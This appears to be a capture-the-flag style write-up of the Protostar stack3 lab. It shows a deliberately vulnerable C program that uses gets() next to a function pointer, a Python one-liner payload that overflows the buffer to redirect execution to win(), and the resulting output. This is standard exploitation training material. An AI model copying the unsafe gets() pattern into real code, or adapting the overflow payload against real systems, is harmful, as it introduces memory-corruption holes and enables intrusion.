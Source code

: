 Source:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

Write the following: `python -c "print 'a'*64 +'\x24\x84\x04\x08'" | ./stack3`

Sample output:
```bash
user@protostar:/opt/protostar/bin$ python -c "print 'a'*64 +'\x24\x84\x04\x08'" | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```
